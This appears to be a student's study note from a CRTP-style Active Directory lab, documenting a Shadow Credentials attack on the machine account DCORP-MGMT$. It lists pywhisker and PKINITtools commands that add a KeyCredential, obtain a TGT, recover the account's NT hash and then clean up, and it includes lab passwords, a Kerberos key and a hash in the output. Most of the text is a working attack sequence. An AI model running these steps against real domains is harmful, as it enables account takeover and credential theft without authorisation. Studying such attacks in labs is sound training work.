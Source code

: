#### Theory can be found in [[2. Domain Privilege Escalation#6. Shadow Credentials]] ####

- List existing KeyCredentials for `DCORP-MGMT`.
```
┌──(root💀0xDe4dBe3f)-[/home/…/CRTP/MixedAttack/dollarcorp.moneycorp.local/pywhisker]
└─# python3 pywhisker.py -d dollarcorp.moneycorp.local -u ciadmin -p '*ContinuousIntrusion123' --target 'DCORP-MGMT$' --action list                  
[*] Searching for the target account
[*] Target user found: CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute
```

- Generate a KeyCredential structure and write the necessary information as new values of the `msDs-KeyCredentialLink` attribute of `DCORP-MGMT`.
```
┌──(root💀0xDe4dBe3f)-[/home/…/CRTP/MixedAttack/dollarcorp.moneycorp.local/pywhisker]
└─# python3 pywhisker.py -d dollarcorp.moneycorp.local -u ciadmin -p '*ContinuousIntrusion123' --target 'DCORP-MGMT$' --action add --filename mgmt
[*] Searching for the target account
[*] Target user found: CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 9aba4ac2-4153-5004-20be-b3601b333f42
[*] Updating the msDS-KeyCredentialLink attribute of DCORP-MGMT$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: mgmt.pfx
[*] Must be used with password: KmHdzwcmxs59MGadZbVo
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

- Request a TGT with `gettgtpkinit.py`.
```
┌──(root💀0xDe4dBe3f)-[/home/…/CRTP/MixedAttack/dollarcorp.moneycorp.local/pywhisker]
└─# python3 ../PKINITtools/gettgtpkinit.py -cert-pfx mgmt.pfx -pfx-pass KmHdzwcmxs59MGadZbVo dollarcorp.moneycorp.local/'DCORP-MGMT$' mgmt.ccache 
2023-08-22 20:37:53,989 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-08-22 20:37:54,016 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-08-22 20:38:04,439 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-08-22 20:38:04,440 minikerberos INFO     9159e9151ba48d7a425a1fa97333f5ba8f27ecf9287fbfda66ea85b76a592a66
INFO:minikerberos:9159e9151ba48d7a425a1fa97333f5ba8f27ecf9287fbfda66ea85b76a592a66
2023-08-22 20:38:04,446 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

- Request a TGT using `getnthash.py`.
```
┌──(root💀0xDe4dBe3f)-[/home/…/CRTP/MixedAttack/dollarcorp.moneycorp.local/pywhisker]
└─# export KRB5CCNAME=mgmt.ccache         


┌──(root💀0xDe4dBe3f)-[/home/…/CRTP/MixedAttack/dollarcorp.moneycorp.local/pywhisker]
└─# python3 ../PKINITtools/getnthash.py -key 9159e9151ba48d7a425a1fa97333f5ba8f27ecf9287fbfda66ea85b76a592a66 dollarcorp.moneycorp.local/'DCORP-MGMT$'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
0878da540f45b31b974f73312c18e754
```

- With the NT hash of `DCORP-MGMT$` craft a TGS for `cifs/dcorp-mgmt.dollarcorp.moneycorp.local` to be able to dump hashes like in [[3. Linux Tools/dollarcorp.moneycorp.local/3. Domain Domination/Path 8 - RBCD|Path 8 - RBCD]]

- Clear the `msDs-KeyCredentialLink` attribute of `DCORP-MGMT`.
```
┌──(root💀0xDe4dBe3f)-[/home/…/CRTP/MixedAttack/dollarcorp.moneycorp.local/pywhisker]
└─# python3 pywhisker.py -d dollarcorp.moneycorp.local -u ciadmin -p '*ContinuousIntrusion123' --target 'DCORP-MGMT$' --action clear                 
[*] Searching for the target account
[*] Target user found: CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
[*] Clearing the msDS-KeyCredentialLink attribute of DCORP-MGMT$
[+] msDS-KeyCredentialLink cleared successfully!
```